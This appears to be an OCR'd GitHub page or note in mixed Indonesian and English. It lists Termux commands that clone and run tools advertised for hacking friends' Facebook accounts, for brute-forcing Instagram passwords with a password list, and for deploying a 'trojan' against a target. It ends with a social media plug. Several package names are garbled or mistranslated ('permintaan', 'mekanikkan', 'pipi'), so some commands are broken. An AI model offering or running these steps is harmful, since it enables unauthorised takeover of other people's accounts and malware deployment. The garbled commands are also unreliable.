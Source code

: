# Hekfb ig clone yooho


#HECK FB
apt update && apt upgrade
pip2 install --upgrade pipi
pip2 instal permintaan
pip2 instal mekanikkan
pkg instal git
git clone https://github.com/blackcodercrush/hack-facebook-teman
cd hack-facebook-teman
sh requests.sh
python2 hack-fb.py



#HECK IG
$ apt update && apt upgrade
$ pkg install python
$ pkg install git
$ pkg install nano
$ git clone https://github.com/avramit/instahack.git
$ ls
$ cd instahack
$ ls
$ pip instal permintaan
$ cd instahack
$ nano pass.txt
$ cat pass.txt
$ ls
$ python hackinsta.py

#HECK FB BANGUNIN SAHUR dan lainnya
pkg instal Mtools-y
pkg instal openssh-y
pip2 instal permintaan
pip2 instal
mekanikkan pip2 instal -r requirement.txt
pip2 instal Bs4
pip2 instal urllib3 chardet certifi idna meminta
git clone https://github.com/DICKYalone/dicky
cd dicky
sh Dickygt.sh

#FiRUS TROJAN TARGET
pkg update & pkg upgrade
pkg install git
git clone https://github.com/4L13199/meTAInstall
cd meTAInstall
chmod +x meTAInstall
sh meTAInstall.sh




BRUTEFORCE INSTAGRAM*


apt update && apt upgrade
pkg install python git nano
git clone https://github.com/avramit/instahack.git
cd instahack
pip install requests
cd instahack
nano pass.txt
cat pass.txt
python hackinsta.py


Thanks for watching 🙂

FOLLOW IG MY IG @putrakps05


